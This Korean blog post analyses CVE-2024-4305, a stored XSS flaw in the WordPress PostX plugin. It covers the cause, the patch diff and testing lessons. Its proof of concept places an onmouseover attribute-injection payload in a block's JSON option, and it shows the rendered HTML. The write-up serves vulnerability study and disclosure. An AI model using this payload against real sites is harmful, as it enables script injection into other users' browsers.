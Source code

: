 ```yaml
---
title: "[CVE-2024-4305] 취약점 분석 보고서"
description: "PostX Stored XSS 취약점"
author: bde574786
date: 2024-12-02 23:43:00 +0900
categories: [One-Day 분석, WordPress]
tags: [WordPress, CVE, XSS]
---
```



## **1. Description**

페이지나 게시물에 블록이 삽입될 때, 해당 블록 옵션 중 일부를 출력하기 전에 검증과 이스케이프 처리를 하지 않아 Contributor 이상의 권한을 가진 사용자가 Stored XSS 공격을 수행할 수 있다.

또한, 검증과 이스케이프 처리가 누락된 블록 옵션은 JSON 데이터로 저장되고 HTML로 렌더링되는 과정에서 악의적인 스크립트가 실행될 수 있다.

- CVSS: 5.9(Medium)
- CWE: CWE-79(XSS)

## **2. Environment Setting**

### **2.1 Affected Version**

- Post Grid Gutenberg Blocks and WordPress Blog Plugin – PostX < 4.1.0 - Contributor+

## **3. PoC**

**⚠️** Contributor 이상의 사용자만 게시물을 작성하고, 해당 게시물에 블록을 삽입하여 블록 옵션을 수정할 수 있기 때문에 Contributor 이상의 권한을 가진 계정으로 진행해야 한다.

편집기를 코드 편집기로 변경하고 블록 옵션(filterMobileText)에 악성 스크립트를 포함시켜 임시 저장한다. 

```json
<!-- wp:ultimate-post/post-grid-3 {
    "blockId": "d57ca5",
    "currentPostId": "2198",
    "filterShow": true,
    "paginationShow": true,
    "readMore": true,
    "contentTag": "section",
    "openInTab": true,
    "headingText": "123",
    "headingURL": "123",
    "headingTag": "h5",
    "titleTag": "h6",
    "metaMinText": "123",
    "metaAuthorPrefix": "123",
    "fallbackImg": {
        "url": "123",
        "id": 99999
    },
    "readMoreText": "123",
    "filterText": "ClickMe!",
    "filterMobileText": "\"onmouseover='alert(/XSS/)'\"",
    "loadMoreText": "123"
} /-->

```

![image.png](assets/posts/2024-12-02/img-002.png)

JSON 데이터를 통해 입력된 사용자 입력값이 DOM 요소에 동적으로 삽입되고 HTML 속성으로 렌더링 된다. 따라서,  `ClickMe!` 텍스트 위로 커서가 이동되면 `onmouseover` 이벤트가 발생한다.

```html
<ul class="ultp-flex-menu" data-name="" onmouseover="alert(/XSS/)" "="">
    <li class="filter-item">
        <a class="filter-active" data-taxonomy="" href="#">ClickMe!</a>
    </li>
</ul>
```

![image.png](assets/posts/2024-12-02/img-003.png)

## **4. Analysis**

`wp_kses` 함수는 두 번째 인자로 `$allowd_html`를 사용해 허용할 태그와 속성을 정의한다. 

```php
wp_kses( string $content, array[]|string $allowed_html, string[] $allowed_protocols = array() ): string
```

PoC에서 공격 벡터로 사용되었던 `filterMobileText`에는 `wp_kses` 함수를 사용해서 xss 공격을 방지하고 있다.

```php
// ultimate-post/blocks/template/filter.php

$attr["filterText"] = wp_kses($attr["filterText"], $allowed_html_tags);
$attr["filterMobileText"] = wp_kses($attr["filterMobileText"], $allowed_html_tags);
```

허용된 태그에서도 최소한의 속성만을 허용하고 있다는 것을 알 수 있다.

```php
// ultimate-post/classes/Functions.php
  
/**
 * Custom Text kses
 * @param $params
 * @return array|bool|mixed|string
 * @since v.4.0.2
*/
public function ultp_allowed_html_tags($extras=[]) {
    $allowed =  array(
        'a'          => array(
            'href'  => true,
            'title' => true,
        ),
        'abbr'       => array(
            'title' => true,
        ),
        'b'          => array(),
        'br'          => array(),
        'blockquote' => array(
            'cite' => true,
        ),
        'em'         => array(),
        'i'          => array(),
        'q'          => array(
            'cite' => true,
        ),
        'strong'     => array(),
    );

    return array_merge($allowed, $extras);
}
```

언뜻 보기에는 문제가 없지만 `wp_kses` 함수는 HTML 태그와 속성만 필터링하기 때문에 취약점이 발생한다.  코드 편집기 모드로 전환하면 JSON 형식으로 블록 데이터를 직접 편집할 수 있으므로 위의 검증과 이스케이프 과정을 모두 우회할 수 있다.

## **5. Patch Diff**

4.1.0 버전에서는 `esc_html` 를 사용하여 모든 특수문자를 이스케이프 처리하였다.

```php
// ultimate-post/blocks/template/filter.php

$attr["filterText"] = isset($attr['filterText']) && $attr['filterText'] ? wp_kses($attr["filterText"], $allowed_html_tags) : '';
$attr['filterMobileText'] = isset($attr['filterMobileText']) && $attr['filterMobileText'] ? esc_html($attr['filterMobileText']) : '';
```

## **6. Discussion**

플러그인 코드에서는 `wp_kses` 함수로 필터링하고 있기 때문에, 겉보기에는 안전한 데이터 처리가 이루어진 것처럼 보인다. 그러나, 데이터가 JSON 입력에서 시작해 HTML로 렌더링되는 과정을 놓치면, 검증 및 이스케이프로 누락으로 인한 취약점을 간과할 수 있다.

UI 입력뿐만 아니라 코드 편집기 모드와 같은 사용자 입력 경로에 실제로 악성 데이터를 삽입하여 테스트 해보는 것이 중요할 듯 하다.